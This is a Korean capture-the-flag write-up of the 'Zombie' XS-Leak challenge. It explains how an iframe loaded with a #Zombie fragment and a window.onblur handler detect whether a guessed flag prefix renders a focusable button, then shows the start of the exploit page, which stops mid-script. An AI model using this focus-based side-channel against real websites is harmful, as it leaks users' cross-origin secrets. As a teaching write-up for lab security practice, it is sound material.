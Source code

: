 보시면 아시겠지만 앞에서 설명한 goblin 문제와 코드가 거의 유사합니다. 차이점은 `FLAG`로 시작하면 `button` 태그를 반환한다는 점입니다.
그러니 `<button type='submit' id='Zombie'>good try!!</button>`이 나오는 것을 감지한다면 `FLAG`를 유출 시킬 수 있습니다. 
문제에 반환되는 `button`에 Zombie란 ID가 설정되어 있는 것을 확인할 수 있습니다. 
그리고 `button`은 포커싱이 가능한 태그입니다. 또 포커싱은 `onblur`를 이용해서 감지할 수 있습니다.
이 문제도 보안헤더나 `iframe`을 방지하는 헤더가 존재하지 않기 때문에 `iframe`을 이용해 익스플로잇을 할 수 있습니다. 

**요약하자면 /flag?flag=[try문자]#Zombie를 `iframe`에 로드 후 교차 출처 에서 `button`이 포커싱된 것을 `onblur`를 이용해서 감지할 수 있습니다.**
<br>

**exploit**
익스플로잇 흐름은 다음과 같습니다.
1. `iframe`을 생성합니다.
2. 브라우저(`window`)가 포커스를 잃으면 문자열을 추가 후 초기화 및 `iframe`을 삭제합니다.
   - `leak` 함수는 `onblur` 이벤트 발생 여부에 따라 1 또는 0을 반환합니다.
   - 반환 값이 1이면 해당 문자가 `FLAG`의 시작임을 확인합니다.
   - 반환 값이 0이면 다음 문자를 시도합니다.
4. 다음 문자 추측을 계속해서 반복합니다.
<br>

전체 익스플로잇 코드입니다. 

**index.html**
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Zombie_Solver</title>
</head>
<body>
    <script>
        (async () => {
            
            const ALPHABET = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_";

            const leak = async (url) => {
                return new Promise(r => {
                    let iframe = document.createElement('iframe')

                    window.onblur = async () => {
                        console.debug('onblur fired')
                        window.onblur = ''
                        await sleep(100)
                        iframe.remove()
                        return r(1)
                    }

                    setTimeout(() => {
                        window.onblur = ''
                        iframe.remove()
                        return r(0)
                    }, 400) 

                    iframe.src = `${url}#Zombie`

                    document.body.appendChild(iframe)
                })
            }

            const sleep = (ms) => {
                return new Promise(resolve => setTimeout(resolve, ms));
            }

            let curr = '{{  flag  }}'
```